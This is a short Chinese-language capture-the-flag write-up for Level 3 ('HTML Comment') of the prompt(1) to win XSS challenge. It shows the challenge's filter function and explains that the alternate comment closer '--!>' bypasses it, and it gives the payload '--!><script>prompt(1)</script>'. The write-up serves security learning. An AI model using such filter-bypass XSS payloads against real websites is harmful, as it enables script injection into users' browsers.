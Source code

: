 ## [[prompt(1) to win](http://prompt.ml)] [[Level 3 - HTML Comment](http://prompt.ml/3)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3631/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

------

## 解题报告

正则把 `->` 过略了，导致我们无法闭合注释。

但是 HTML 注释还有另一种闭合方式：`<!--  xxxxx  --!>`

因此构造这样的 payload 即可实现绕过：`--!><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2003%20-%20HTML%20Comment/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
